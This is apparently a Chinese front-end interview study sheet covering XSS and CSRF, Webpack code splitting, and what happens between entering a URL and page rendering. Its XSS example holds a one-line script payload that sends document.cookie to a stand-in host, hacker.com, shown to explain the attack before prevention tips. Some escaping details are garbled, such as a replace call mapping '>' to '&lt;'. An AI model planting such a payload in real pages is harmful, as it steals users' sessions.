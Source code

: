 # 安全押题
1.	什么是 XSS 攻击？如何预防？
举例
```html
div.innerHTML = userComment  
// userComment 内容是 <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
// 就被恶意执行了，这就是 XSS
```

预防

不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行

如果你一样要用 innerHTML，字符过滤
把 < 替换成 &lt;
把 > 替换成 &gt;
把 & 替换成 &amp;
把 ' 替换成 &#39;
把 ' 替换成 &quot;
代码 div.innerHTML = userComment.replace(/>/g, '&lt;').replace...

使用 CSP Content Security Policy

2. 什么是 CSRF 攻击？如何预防？
过程
用户在 qq.com 登录
用户切换到 hacker.com（恶意网站）
hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友。
用户在不知不觉中添加 hacker 为好友。
用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。

避免
检查 referer，qq.com 可以拒绝来自 hacker.com 的请求
csrf_token 来解决

# Webpack 题
1.	转译出的文件过大怎么办？
使用 code split
写法 import('xxx').then(xxx=>{console.log(xxx)})
xxx 模块就是按需加载的

2.	转译速度慢什么办？
不会。

3.	写过 webpack loader 吗？
http://www.alloyteam.com/2016/01/webpack-loader-1/

# 发散题
1.	从输入 URL 到页面展现中间发生了什么？
DNS 查询 DNS 缓存
建立 TCP 连接（三次握手）连接复用
发送 HTTP 请求（请求的四部分）
后台处理请求
监听 80 端口
路由
渲染 HTML 模板
生成响应
发送 HTTP 响应
关闭 TCP 连接（四次挥手）
解析 HTML
下载 CSS（缓存
解析 CSS
下载 JS（缓存
解析 JS